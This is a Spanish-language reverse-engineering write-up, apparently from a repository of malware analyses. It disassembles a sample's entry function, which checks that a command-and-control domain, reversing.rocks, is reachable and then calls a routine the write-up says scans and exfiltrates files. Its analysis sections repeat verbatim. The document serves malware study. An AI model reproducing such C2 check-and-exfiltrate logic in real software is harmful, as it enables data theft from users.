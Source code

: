 ```

                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __stdcall FUN_004011a0(void)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
                             FUN_004011a0                                    XREF[1]:     ___tmainCRTStartup:004013c5(c)
        004011a0 6a 00           PUSH       0x0
        004011a2 6a 01           PUSH       0x1
        004011a4 68 2c 21        PUSH       s_http://reversing.rocks/_0040212c               = "http://reversing.rocks/"
                 40 00
        004011a9 ff 15 ac        CALL       dword ptr [->WININET.DLL::InternetCheckConnect   = 0000239e
                 20 40 00
        004011af 85 c0           TEST       EAX,EAX
        004011b1 74 0d           JZ         LAB_004011c0
        004011b3 e8 78 ff        CALL       FUN_00401130                                     undefined4 FUN_00401130(void)
                 ff ff
        004011b8 6a 00           PUSH       0x0
        004011ba ff 15 34        CALL       dword ptr [->MSVCR120.DLL::exit]                 = 000023fe
                 20 40 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
                             LAB_004011c0                                    XREF[1]:     004011b1(j)
        004011c0 6a 01           PUSH       0x1
        004011c2 ff 15 34        CALL       dword ptr [->MSVCR120.DLL::exit]                 = 000023fe
                 20 40 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
             assume FS_OFFSET = <UNKNOWN>
        004011c8 cc              ??         CCh
             assume FS_OFFSET = 0xffdff000
                             LAB_004011c9                                    XREF[1]:     004020d4(*)
        004011c9 b8 4d 5a        MOV        EAX,0x5a4d
                 00 00
        004011ce 66 39 05        CMP        word ptr [IMAGE_DOS_HEADER_00400000],AX
                 00 00 40 00
        004011d5 74 04           JZ         LAB_004011db
                             LAB_004011d7                                    XREF[2]:     004011eb(j), 004011f9(j)
        004011d7 33 c0           XOR        EAX,EAX
        004011d9 eb 34           JMP        LAB_0040120f
                             LAB_004011db                                    XREF[1]:     004011d5(j)
        004011db 8b 0d 3c        MOV        ECX,dword ptr [IMAGE_DOS_HEADER_00400000.e_lfa
                 00 40 00
        004011e1 81 b9 00        CMP        dword ptr [ECX + 0x400000]=>IMAGE_NT_HEADERS32
                 00 40 00
                 50 45 00 00
        004011eb 75 ea           JNZ        LAB_004011d7
        004011ed b8 0b 01        MOV        EAX,0x10b
                 00 00
        004011f2 66 39 81        CMP        word ptr [ECX + 0x400018]=>IMAGE_NT_HEADERS32_
                 18 00 40 00
        004011f9 75 dc           JNZ        LAB_004011d7
        004011fb 33 c0           XOR        EAX,EAX
        004011fd 83 b9 74        CMP        dword ptr [ECX + 0x400074]=>IMAGE_NT_HEADERS32
                 00 40 00 0e
        00401204 76 09           JBE        LAB_0040120f
        00401206 39 81 e8        CMP        dword ptr [ECX + 0x4000e8]=>IMAGE_NT_HEADERS32
                 00 40 00
        0040120c 0f 95 c0        SETNZ      AL
                             LAB_0040120f                                    XREF[2]:     004011d9(j), 00401204(j)
        0040120f 6a 01           PUSH       0x1
        00401211 a3 30 30        MOV        [DAT_00403030],EAX
                 40 00
        00401216 ff 15 44        CALL       dword ptr [->MSVCR120.DLL::__set_app_type]       = 00002440
                 20 40 00
        0040121c 59              POP        ECX
        0040121d 6a ff           PUSH       -0x1
        0040121f ff 15 24        CALL       dword ptr [->KERNEL32.DLL::EncodePointer]        = 000025be
                 20 40 00
        00401225 8b 0d 64        MOV        ECX,dword ptr [->MSVCR120.DLL::_fmode]           = 000024b4
                 20 40 00
        0040122b a3 80 33        MOV        [DAT_00403380],EAX
                 40 00
        00401230 a3 84 33        MOV        [DAT_00403384],EAX
                 40 00
        00401235 a1 54 30        MOV        EAX,[DAT_00403054]
                 40 00
        0040123a 89 01           MOV        dword ptr [ECX],EAX
        0040123c 8b 0d 68        MOV        ECX,dword ptr [->MSVCR120.DLL::_commode]         = 000024be
                 20 40 00
        00401242 a1 48 30        MOV        EAX,[DAT_00403048]
                 40 00
        00401247 89 01           MOV        dword ptr [ECX],EAX
        00401249 e8 29 05        CALL       FUN_00401777                                     undefined FUN_00401777(void)
                 00 00
        0040124e e8 45 02        CALL       FUN_00401498                                     undefined4 FUN_00401498(void)
                 00 00
        00401253 83 3d 00        CMP        dword ptr [DAT_00403000],0x0                     = 00000001h
                 30 40 00 00
        0040125a 75 0c           JNZ        LAB_00401268
        0040125c 68 98 14        PUSH       FUN_00401498
                 40 00
        00401261 ff 15 54        CALL       dword ptr [->MSVCR120.DLL::__setusermatherr]     = 0000247a
                 20 40 00
        00401267 59              POP        ECX
                             LAB_00401268                                    XREF[1]:     0040125a(j)
        00401268 e8 4a 05        CALL       FUN_004017b7                                     undefined FUN_004017b7(void)
                 00 00
        0040126d 83 3d 10        CMP        dword ptr [DAT_00403010],-0x1                    = FFFFFFFEh
                 30 40 00 ff
        00401274 75 09           JNZ        LAB_0040127f
        00401276 6a ff           PUSH       -0x1
        00401278 ff 15 50        CALL       dword ptr [->MSVCR120.DLL::_configthreadlocale]  = 00002464
                 20 40 00
        0040127e 59              POP        ECX
                             LAB_0040127f                                    XREF[1]:     00401274(j)
        0040127f 33 c0           XOR        EAX,EAX
        00401281 c3              RET
        00401282 68              ??         68h    h
        00401283 97              ??         97h                                              ?  ->  00401797
        00401284 17              ??         17h
        00401285 40              ??         40h    @
        00401286 00              ??         00h
        00401287 e8              ??         E8h
        00401288 d6              ??         D6h
        00401289 04              ??         04h
        0040128a 00              ??         00h
        0040128b 00              ??         00h
        0040128c a1              ??         A1h
        0040128d 50              ??         50h    P                                         ?  ->  00403050

```

La función FUN_004011a0 es el punto de entrada principal del malware, referenciada desde ___tmainCRTStartup. Su función es comprobar la conectividad a internet y ejecutar la lógica maliciosa principal si la conexión con el C2 (Command & Control) está activa.


###🧠 RESUMEN DEL COMPORTAMIENTO
1️⃣	Comprueba si hay conexión con http://reversing.rocks/ usando InternetCheckConnectionA.  
2️⃣	Si hay conexión, llama a FUN_00401130 (que inicializa WinINet y lanza la exfiltración de datos).  
3️⃣	Si no hay conexión, termina el proceso con exit(1).  

## 🔍 ANÁLISIS DETALLADO
###🔹 1. Comprobación de conexión a Internet
```
004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0
```
- Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.
- Si no hay conexión (EAX = 0), salta a exit(1).

### 🔹 2. Ejecución del payload si hay conexión
```
004011b3 CALL FUN_00401130
```
Ya analizamos, esta función [FUN_00401130](FUN_00401130.md):  
- Llama a InternetOpenA, InternetConnectA  
- Inicia comunicación con el servidor remoto  
- Llama a FUN_00401000 → escaneo y exfiltración de archivos [FUN_00401000](FUN_00401000.md)  

###🔹 3. Finalización del proceso
```
004011ba CALL [exit]
```
- Llama a exit(0) si tuvo éxito
- O a exit(1) si falló
    
## 🔍 ANÁLISIS DETALLADO
###🔹 1. Comprobación de conexión a Internet
```
004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0
```
- Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.
- Si no hay conexión (EAX = 0), salta a exit(1).

###🔹 2. Ejecución del payload si hay conexión
```
004011b3 CALL FUN_00401130
```
- Llama a InternetOpenA, InternetConnectA
- Inicia comunicación con el servidor remoto
- Llama a FUN_00401000 → escaneo y exfiltración de archivos [FUN_00401000](FUN_00401000.md) 

###🔹 3. Finalización del proceso
```
004011ba CALL [exit]
```
- Llama a exit(0) si tuvo éxito
- O a exit(1) si falló

